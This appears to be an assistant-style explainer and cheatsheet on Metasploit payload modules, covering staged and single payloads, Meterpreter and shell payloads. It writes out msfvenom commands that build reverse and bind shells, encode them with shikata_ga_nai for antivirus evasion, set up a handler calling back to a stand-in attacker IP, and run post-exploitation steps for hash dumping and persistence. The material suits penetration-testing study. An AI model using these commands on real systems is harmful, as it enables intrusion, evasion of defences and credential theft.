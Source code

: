 Discuss briefly about msf payload modules


### **MSF Payload Modules in Metasploit Framework**  

The **Metasploit Framework (MSF)** provides various **payload modules** that define the malicious code executed on a target system after exploitation. These payloads are categorized based on their functionality, delivery method, and interaction capabilities.

---

### **Types of Payload Modules**  

1. **Singles (Non-Staged Payloads)**  
   - Self-contained, single-stage payloads.  
   - Example: `windows/meterpreter_reverse_tcp`  
   - Pros: More reliable (no need for a second stage).  
   - Cons: Larger in size.  

2. **Stagers & Stages (Staged Payloads)**  
   - Small initial payload (**stager**) fetches the main payload (**stage**) from the attacker.  
   - Example: `windows/meterpreter/reverse_tcp` (stager) + `meterpreter` (stage).  
   - Pros: Smaller initial footprint.  
   - Cons: More complex, may fail if network conditions block the second stage.  

3. **Meterpreter** (*Meta-Interpreter*)  
   - Advanced, memory-resident payload with extensive post-exploitation features.  
   - Runs in stealth mode (no new process).  
   - Supports extensions like `priv`, `stdapi`, and `kiwi`.  

4. **Shell Payloads**  
   - Provides basic command shell access (`/bin/sh` or `cmd.exe`).  
   - Examples: `cmd/unix/reverse`, `windows/shell_reverse_tcp`.  

5. **Inline (NoNX) Payloads**  
   - Used when CPU protections like NX/DEP prevent execution in certain memory regions.  

6. **Encoded & Obfuscated Payloads**  
   - Helps evade AV/IDS detection using encoders (`shikata_ga_nai`).  

---

### **Common Usage Examples**  

- Generate a Windows reverse shell:
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload.exe
  ```
- Set a listener in Metasploit:
  ```bash
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST <```
- Continue from above append but dont start from begining

 Here’s the continuation of your Metasploit payload modules guide, starting from where you left off (the listener setup):

---

### **Common Usage Examples (Continued)**  

- Set a listener in Metasploit:  
  ```bash
  use exploit/multi/handler  
  set PAYLOAD windows/meterpreter/reverse_tcp  
  set LHOST <Attacker_IP>  
  set LPORT 4444  
  exploit -j  
  ```  
  - `-j` runs the listener as a background job.  

- Generate a Linux bind shell:  
  ```bash
  msfvenom -p linux/x86/shell_bind_tcp LPORT=5555 -f elf > payload.elf  
  ```  

- Encode a payload to evade detection (e.g., using `shikata_ga_nai`):  
  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 -e x86/shikata_ga_nai -f exe > encoded_payload.exe  
  ```  

---

### **Payload Delivery Methods**  

1. **Executables (`exe`, `elf`, etc.)** – Direct execution on the target.  
2. **Scripts (`php`, `asp`, `py`, etc.)** – Web-based or interpreter-dependent delivery.  
3. **Document Exploits (`pdf`, `docx` with macros)** – Social engineering attacks.  
4. **Web Payloads (`war`, `jsp`)** – For Java-based targets.  

---

### **Post-Exploitation with Meterpreter**  

Once a Meterpreter session is active:  
- Dump passwords: `run post/windows/gather/hashdump`  
- Migrate to a stable process: `migrate <PID>`  
- Enable persistence: `run persistence -X -i 30 -p <PORT> -r <LHOST>`  

---

### **Key Considerations**  

1. **Stealth**: Use encoders, avoid noisy payloads in monitored environments.  
2. **Reliability**: Non-staged (`single`) payloads work better in restricted networks.  
3. **Target Compatibility**: Match payload architecture (x86/x64) and OS (Windows/Linux).  


---

### **Metasploit Payload Cheatsheet**  
#### **1. Payload Types**  
| **Type**               | **Description**                                                                 | **Example**                              |  
|------------------------|-------------------------------------------------------------------------------|------------------------------------------|  
| **Single (Non-Staged)** | Self-contained, all-in-one payload.                                           | `windows/meterpreter_reverse_tcp`        |  
| **Stager + Stage**      | Small stager fetches larger stage payload.                                    | `windows/meterpreter/reverse_tcp` (stager) + Meterpreter (stage) |  
| **Meterpreter**         | Advanced, stealthy, in-memory payload with modules.                           | `windows/x64/meterpreter/reverse_https`  |  
| **Shell**               | Basic OS shell (`/bin/sh`, `cmd.exe`).                                        | `cmd/unix/reverse`                       |  
| **Inline (NoNX)**       | Bypasses CPU protections (NX/DEP).                                            | `linux/x86/shell_bind_tcp`               |  
| **Encoded/Obfuscated**  | Evades AV/IDS via encoding (e.g., `shikata_ga_nai`).                          | `-e x86/shikata_ga_nai`                  |

---

#### **2. Common Commands**  
##### **Payload Generation with `msfvenom`:**  
```bash
# Windows Reverse Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload.exe

# Linux Bind Shell
msfvenom -p linux/x86/shell_bind_tcp LPORT=5555 -f elf > payload.elf

# Encode Payload (AV Evasion)
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe > encoded.exe
```

##### **Listener Setup in MSF:**  
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Attacker_IP>
set LPORT <ATTACKER_PORT>
exploit
```
